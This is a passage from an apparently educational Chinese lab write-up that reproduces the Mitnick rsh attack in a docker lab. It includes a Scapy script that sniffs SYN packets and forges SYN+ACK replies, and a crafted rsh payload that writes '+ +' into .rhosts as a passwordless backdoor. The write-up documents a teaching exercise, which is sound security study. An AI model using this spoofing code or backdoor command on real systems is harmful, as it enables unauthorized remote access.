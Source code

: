 ```python
        tcp.ack = pkt[TCP].seq + 1

        p = ip / tcp
        send(p, verbose=0)

myFilter = 'tcp'  # You need to make the filter more specific      
sniff(iface='br-ac4a3b4d5a3d', filter=myFilter, prn=spoof)
```

进行sniff嗅探`X-Terminal`主机发送第二次TCP连接的SYN包，根据该包构造ip头和tcp头，设置标志位为"SA"表示SYN+ACK包，注意ack序号应为SYN包的`seq+1`，seq序号可以随意设计。

进行tcpdump查看包交互过程：

![sniff](https://s3.bmp.ovh/imgs/2023/10/09/1869095960568298.png)

**结果检验：**

![results](https://s3.bmp.ovh/imgs/2023/10/09/76c40ef66720f205.png)



#### 7. 设置后门

为了避免每次侵入X-Terminal都需要发动攻击， 可以在X-Terminal上设置一个后门，这个后门允许攻击者无需输入密码就能在任何时候正常地登录到X-Terminal。实现这个后门需要做的就是将字符串“+ +” 添加到X-Terminal的 .rhosts 文件中，将脚本中data数据段命令修改为`echo + + > /home/seed/.rhosts`即可。

`python`：

```python
data = "9090\x00seed\x00seed\x00echo + + > /home/seed/.rhosts\x00"
```

结果：

成功修改了`.rhosts`文件

![result1](https://s3.bmp.ovh/imgs/2023/10/09/6af4ad956f5912ac.png)

使用攻击主机进行rsh登录，成功返回日期时间

![result2](https://s3.bmp.ovh/imgs/2023/10/09/468f38436c0962ca.png)

## 实验总结

通过本次实验，我了解了当时mitnick进行攻击的具体过程以及实现原理。并且能够简单复现该攻击实验，并且熟练掌握了docker的使用方法。




